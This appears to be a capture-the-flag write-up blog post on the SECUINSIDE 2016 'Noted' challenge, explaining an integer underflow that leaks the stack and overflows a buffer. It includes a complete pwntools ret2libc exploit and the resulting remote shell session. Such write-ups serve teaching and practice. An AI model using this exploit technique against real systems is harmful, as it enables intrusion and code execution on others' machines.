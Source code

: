 ```yaml
---
layout: post
title: SECUINSIDE Quals 2016 - Noted
category: [Exploitation]
tags: [Exploitation, SECUINSIDE]
comments: true
---
```


**Points:** 180
**Solves:** 19
**Category:** Exploitation
**Description:** get shell and execute /flag_x

> [noted]({{site.url}}/assets/secu-noted)
> [libc]({{site.url}}/assets/secu-libc)

{% highlight text %} 
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
gdb-peda$
{% endhighlight %}

This challenge is a binary in a form of note keeping application. On start it changes directory to `/home/noted` and presents the user with a menu.
{% highlight text %}
[Simple NOTED]
Menu
1) Login
2) Register
3) Exit

{% endhighlight %}

Before login, we need to register an account. On registration the application creates a folder with the provided user id. For the password it creates a file in the new directory, password.txt that only contains plaintext ASCII password for this user.

Once we login a different menu is presented.

{% highlight text %}
Menu
1) List note
2) Write note
3) Read note
4) Edit note
5) Delete note
6) Recover note
7) Empty recyclecan
8) Logout

{% endhighlight %}

## Main menu

A short description of all the functions in the application.

1. `List note` displays the notes the user has created
2. `Write note` is how a user creates a note. Each note creates a file in the user's designated directory, each file/note starts with 16 bytes serving as a password for that note followed by a maximum of 1024 bytes of note's content.
3. `Read note` reads a note
4. `Edit note` edits a note
5. `Delete note` deletes a note by moving the note/file in a subdirectory named `recyclecan`
6. `Recover note` moves a deleted note from the recyclecan directory back to the user's main folder
7. `Empty recyclecan` deletes all files/notes in the recyclecan folder
8. `Logout` logs out by setting a local variable in main and presents the login menu

To exploit the application we only need to know the `Write note` and `Edit note` functions.

## Write note

It's going to be easier if I just show the decompiled pseudo-code.
What we need to do here is, create a note with arbitrary name and password and a negative content length. The goal is to create a note with its content only its password.

{% highlight C %}
int write_note()
{
  int result;
  int v1;
  int n;
  int fd;
  int fda;
  int length;
  char temp_buf[16];
  char content[1024];
  char title[136];  // note name / file name

  memset(title, 0, 0x80);
  memset(content, 0, 0x400);
  memset(temp_buf, 0, 0x10);
  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;  // null terminates our input
  if ( check_alphanum(title) )
  {
    fd = open(title, 0);
    printf("filedata length : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    length = atoi(temp_buf);  // Here we need to supply negative number
    if ( length > 1023 )      // length is signed        
      length = 0;
    memset(temp_buf, 0, 0x10);
    printf("password : ");
    temp_buf[read(0, temp_buf, 0x10) - 1] = 0;
    if ( length > 0 )       // negative length prevents us from
    {                       // writing to the content buffer :(
      printf("filedata : ");
      v1 = read(0, content, length + 1);
      n = v1 - 1;
      content[v1] = 0;
    }
    if ( fd == -1 )
    {
      fda = open(title, 65, 438); // creates note
      write(fda, temp_buf, 0x10); // writes note's password to the note
      if ( length <= 0 )          // we need negative length here
      {                         
        if ( !length )            // negative length prevents "(EMPTY)"
          write(fda, "(EMPTY)", 7); // to be written to the note
      }
      else
      {
        write(fda, content, n);
      }
      close(fda);      // our note's content is only it's 16 byte password ! 
    }
    else
    {
      puts("error : filename duplicate!\n");
      close(fd);
    }
    result = write(1, "\n", 1);
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

The check if length is negative before writing to the note is preventing us from supplying data to the note, however by creating a note with it's content only it's password we can trigger an integer underflow in `Edit note`.

## Edit note

{% highlight C %}
int edit_note()
{
  int result;
  int v1;
  int file_length;
  int note_fd;
  int n;
  char temp_buf[16];
  char password[16];
  char note_content[1024];
  char title[136];

  memset(title, 0, 0x80);
  memset(note_content, 0, 0x400);
  memset(password, 0, 0x10);
  memset(temp_buf, 0, 0x10);

  printf("title : ");
  title[read(0, title, 0x80) - 1] = 0;

  if ( check_alphanum(title) )
  {
    if ( check_file_stats(title, &v1) == -1 )
    {
      result = puts("error : invalid note\n");
    }
    else
    {
      // asks user for password
      memset(temp_buf, 0, 0x10);
      printf("password : ");
      temp_buf[read(0, temp_buf, 0x10) - 1)] = 0;
      password = temp_buf;
      note_fd = open(title, 0);
      if ( note_fd == -1 )
      {
        result = puts("error : cannot open note\n");
      }
      else
      {
        // read the passwd from the note
        read(note_fd, temp_buf, 0x10);
        // compare the two passwords
        if ( !memcmp(password, local_buf, 0x10) ) // 
        {
          if ( file_length - 16 <= 1024 )
          {
            // since the note's content is only it's password
            // the length of the note will be 16
            // calculating 16 - 16 - 1 will result it n being -1 via int underflow vuln
            n = read(note_fd, note_content, file_length - 16) - 1; // integer underflow here
            note_content[n] = 0;
            close(note_fd);

            // Here write will leak the whole content of the stack !
            printf("original data : ");
            write(1, note_content, n);
            note_fd = open(title, 1);

            // and here we have buffer overflow of the note_content local buffer
            printf("new file data (new file can't exceed original size) : ");
            n = read(0, note_content, n) - 1;
            note_content[n] = 0;
            write(note_fd, &local_buf, 0x10);
            write(note_fd, note_content, n);
            close(note_fd);
          }
          else
          {
            puts("error : note is too big\n");
          }
        }
        else
        {
          puts("error : incorrect password\n");
        }
        result = close(note_fd);
      }
    }
  }
  else
  {
    result = puts("error : alphanum only!\n");
  }
  return result;
}
{% endhighlight %}

If you read the comments, you pretty much know what needs to be done in order to exploit this function.
So let's create a username, login and create a note with length -1. Then go into `Edit note` and edit our note. This will cause the leak of the whole stack, that's where we are going to grab an address within libc calculate the offset to `system()` and `/bin/sh` string and classically overwrite the return address of the `Edit note`. 

## Exploit

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def register(user, pwd):
  r.sendline('2')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('3) Exit\n')

def login(user, pwd):
  r.sendline('1')
  r.recvuntil('userid : ')
  r.sendline(user)
  r.recvuntil('userpw : ')
  r.sendline(pwd)
  r.recvuntil('Menu\n')

def create_note(title):
  r.sendline('2')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('filedata length : ')
  r.sendline('-1')
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('8) Logout')

def edit_note(title):
  r.sendline('4')
  r.recvuntil('title : ')
  r.sendline(title)
  r.recvuntil('password : ')
  r.send("\n")
  r.recvuntil('original data : ')
  leak = r.recv(0x4cc)
  libc_addr = u32(r.recv(4)) - 0x00018637 # local 0x19af3
  leak = r.recv()
  log.info("libc addr: " + hex(libc_addr))
  bin_sh = libc_addr + 0x15909f     # local 0x16084c remote 0x15909f
  system_addr = libc_addr + 0x0003a920  # local 0x40310 remote 0x3a920
  log.info("/bin/sh at: " + hex(bin_sh))
  log.info("system at: " + hex(system_addr))

  payload = "A" * 0x48c
  payload += p32(system_addr)
  payload += p32(bin_sh) * 2
  r.sendline(payload)

def exploit(r):
  r.recvuntil('3) Exit\n')

  user = 'uafio'
  pswd = 'uafio'

  register(user, pswd)
  login(user, pswd)
  create_note('a')
  edit_note('a')

  r.interactive()


if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/secuinside/noted/noted'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight text %}
➜  noted python ./noted.py chal.cykor.kr 20003
[*] For remote: ./noted.py HOST PORT
[+] Opening connection to chal.cykor.kr on port 20003: Done
[*] libc addr: 0xf75c4000
[*] /bin/sh at: 0xf771d09f
[*] system at: 0xf75fe920
[*] Switching to interactive mode
new file data (new file can't exceed original size) : $
$ ls /
bin
boot
core
dev
etc
flag_x
home
lib
lib32
lib64
media
mnt
noted
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ /flag_x
df72b22170fed79911e4a69c68a1b9a0
$ id
uid=1000(noted) gid=1000(noted) groups=1000(noted)
$ whoami
noted
$
{% endhighlight %}
